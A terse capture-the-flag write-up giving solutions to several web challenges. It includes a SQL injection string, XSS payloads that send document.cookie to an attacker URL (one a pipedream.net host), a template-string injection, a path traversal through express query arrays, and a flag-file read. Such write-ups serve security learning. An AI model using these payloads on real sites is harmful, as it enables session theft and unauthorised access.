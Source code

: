 # web

## inspector-general

```
inspect element and you'll get flag
```

## login

```
sqli with payload ' or 1=1 --
```

## static-pastebin

```
ssrf to steal admin cookie
payload:
/><img src=x onerror="document.location.href=YOUR_CONTROLED_URL?v=" + document.cookie">
```

## panda-facts

```
escaping out of js template string
payload:
}","member":1,"a":"{
```

## static-static-hosting

```
ssrf to steal admin cookie
allowed attributes ['src', 'width', 'height', 'alt', 'class']
payload:
<iframe src="javascript:document.location.href='https://enx85hkonbfps.x.pipedream.net?v=' + document.cookie">
```

## tux-fanpage

References:

[express query doc](https://expressjs.com/en/api.html#req.query)
[node path resolve doc](https://nodejs.org/api/path.html#path_path_resolve_paths)

```
%22%20%2B%20flag%20%2B%20%22    => Doesn't work
abc\.\.\.\.\\index.js    => gives 'abc..index.js'

Solution Idea:
a. express query can be array
b. node path can be array too

payload:
?path[]=i&path[]=/../../index.js
```

## XXXX

```
require('fs').readFileSync('/ctf/flag.txt')
```
